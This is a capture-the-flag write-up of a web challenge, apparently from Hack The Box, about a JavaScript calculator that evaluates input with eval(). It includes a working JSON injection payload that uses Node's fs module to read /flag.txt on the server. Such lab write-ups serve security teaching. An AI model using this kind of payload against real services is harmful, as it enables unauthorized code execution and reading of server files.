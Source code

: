 # jscalc

## Description
```
In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. 
With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. 
Attempt to outsmart it at your own risk! 🦑
```

## Writeup

Starting off I took a loo kat the website. <br/>
```html
<html>
<head>
    <title>🦑calc 0.1</title>
    <link rel="icon" type="image/png" href="/static/favicon.png">
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
    <link rel="stylesheet" href="/static/css/main.css">
</head>
<body>
    <nav class="navbar navbar-expand-lg navbar-dark bg-primary mb-4">
        <a class="navbar-brand mb-0 h1" href="/">🦑calc</a>
    </nav>
    <div class="container">
        <div class="card">
            <div class="card-body">
                <div class="card-text">
                    <center><h3>A super secure Javascript calculator with the help of <a href="https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval"><b>eval()</b></b></a>  🤮</h3></center>
                </div>
                <br>
                <form class='form' role='form' id='form'>
                    <div class="input-group">
                        <input type="text" id="formula" name="formula" class="form-control" value="100*10-3+340" placeholder="100*10-3+340">
                    </div>
                    <button type='submit' class='btn-lg btn-block btn-danger'>Calculate</button>
                    <br>
                </form>
                <div id='output'></div>
                <div id='alerts'></div>
            </div>
        </div>
    </div>
</body>
<script src="https://code.jquery.com/jquery-3.3.1.slim.min.js" integrity="sha384-q8i/X+965DzO0rT7abK41JStQIAqVgRVzpbzo5smXKp4YfRvH+8abtTE1Pi6jizo" crossorigin="anonymous"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js" integrity="sha384-UO2eT0CpHqdSJQ6hJty5KVphtPhzWj9WO1clHTMGa3JDZwrnQq4sF86dIHNDz0W1" crossorigin="anonymous"></script>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js" integrity="sha384-JjSmVgyd0p3pXB1rRibZUAYoIIy6OrQ6VrjIEaFf/nJGzIxFDsf4x0xIM+B07jRM" crossorigin="anonymous"></script>
<script src='/static/js/main.js' type='text/javascript'></script>
</html>
```

Sending a request it seems like this is our normal json payload: <br/>
```json
{"formula":"1 + 1"}
```

Using this we get the following response body: <br/>
```json
{"message":2}
```

Also looking at the html we see a link to `eval()` a javascript function which has some vulnerabilities and may allow arbitrary code execution. <br/>
Knowing that we may inject malicious code we can code a payload. <br/>

Trying out the following one-liner payload: <br/>
```json
{"formula":"require('fs').readFileSync('/flag.txt').toString();"}
```

This basically imports `fs` to read files and than proceeds to read `/flag.txt`, the last step is to convert it to string so it can be successfully returned. <br/>

Sending the payload we actually obtain the flag. <br/>
```json
{"message":"HTB{REDACTED}"}
```